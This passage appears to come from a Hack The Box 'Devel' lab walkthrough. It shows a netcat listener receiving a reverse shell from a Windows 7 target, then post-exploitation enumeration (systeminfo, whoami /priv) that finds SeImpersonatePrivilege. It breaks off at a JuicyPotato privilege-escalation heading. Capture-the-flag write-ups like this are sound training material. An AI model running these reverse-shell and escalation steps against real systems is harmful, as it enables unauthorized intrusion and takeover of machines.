 Receive the reverse shell on the netcat listener...

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.129.46.239] 49161
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

```

# Post-Exploitation

---

- systeminfo

```bash
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
Hotfix(s):                 N/A

```

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========

SeImpersonatePrivilege        Impersonate a client after authentication Enabled


```

Based on the system information and user privileges there are three different privilege escalation paths.

## Path 1: JuicyPotato
